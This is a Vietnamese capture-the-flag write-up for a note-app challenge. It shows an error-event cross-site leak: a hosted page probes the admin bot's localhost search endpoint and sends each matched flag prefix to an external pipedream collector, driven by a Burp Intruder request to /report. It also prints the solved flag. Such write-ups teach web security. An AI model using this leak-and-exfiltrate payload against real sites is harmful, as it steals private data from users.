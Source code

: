 ## Leak me if you can

Bài whitebox: Challenge là 1 trang có chức năng tạo note, đọc note và tìm kiếm note. Có 2 loại note là `is_admin` `1` hoặc `0`, flag nằm ở note `is_admin=1`.
Ngoài ra có chức năng report báo cáo 1 url cho admin và 1 con bot sẽ tự động đến xem.

```js
    async init() {
        return this.db.exec(`
            PRAGMA case_sensitive_like=ON; 

            DROP TABLE IF EXISTS notes;

            CREATE TABLE IF NOT EXISTS notes (
                id          INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
                note        VARCHAR(255) NOT NULL,
                author       VARCHAR(255) NOT NULL,
                is_admin    BOOLEAN NOT NULL
            );

            INSERT INTO notes (id, note, author, is_admin) VALUES (0, "REDACTED", "nhienit", 1);
        `);
    }
```

Để là admin thì cần truy cập từ localhost

Review source code thì các chức năng đều an toàn, chú ý tới:
```js
// ........
const isAdmin = req => ((req.ip == '127.0.0.1') ? 1 : 0);
// ...........

router.get('/notes/search', (req, res) => {
	if(req.query.note) {
		const query = `${req.query.note}%`;
		return db.findNote(query, isAdmin(req))
			.then(notes => {
				if(notes.length == 0) return res.status(404).send(response('No  results!'));
				res.json(notes);
			})
			.catch(() => res.send(response('Something went wrong! Please try again!')));
	}
	return res.status(403).json(response('Missing "note" parameters!'));
});

// .............
```
![Screenshot (914)](https://user-images.githubusercontent.com/71699412/173526274-b65310f8-f85c-4396-b937-d5f2c6396c84.png)

![Screenshot (913)](https://user-images.githubusercontent.com/71699412/173526283-936a39b7-0a1f-456e-af73-0626c318449e.png)

Nếu tìm thấy note status code sẽ là `200` trong khi nếu không thì `404`. Ok đây là 1 bài XSLeak(error-based cross-site leaks), ta có thể dùng script để load thử route `/notes/search` tìm kiếm note, nếu đúng thì onload được, 404 sẽ là error: https://xsleaks.dev/docs/attacks/error-events/

`index.html`:
```html
<head>
  
</head>

<script>
function probeError(url, flag) {
  let script = document.createElement('script');
  script.src = url;
  script.onload = () => {
    fetch('https://eog308gfphj31fc.m.pipedream.net?flag='+flag)
  };
  script.onerror = () => console.log('Error event triggered');
  document.head.appendChild(script);
}

const urlParams = new URLSearchParams(window.location.search);
flag = urlParams.get('flag');

url = 'http://localhost:13337/notes/search?note='+flag;
probeError(url, flag);
</script>
```

Brute force thủ công bằng *Burpsuite Intruder* khi submit url đến `/report` cho con bot nhìn:
```
POST /report HTTP/1.1
Host: localhost:13337
Content-Length: 50
Content-Type: application/x-www-form-urlencoded
Connection: close

url=https://451d-8-21-11-111.ap.ngrok.io/?flag=KCSC{W0W_H4§target§
```

Flag chỉ có con bot nằm ở localhost mới thấy được. Bằng cách submit url trỏ đến trang `index.html` mình tự host, nếu onload không lỗi thì `fetch` đến pipe dream cùng kí tự vừa tìm thấy được, lặp đi lặp lại cho đến khi tìm được flag.

![Screenshot (915)](https://user-images.githubusercontent.com/71699412/173527159-7bce2744-bb9e-4e62-b33b-8f94eeba9b6f.png)

Có cách automate bằng python nhanh hơn nhưng công code thì mệt hơn

**flag**: `KCSC{W0W_H4v3_U_h3ard_4b0ut_XS_L34k?}`
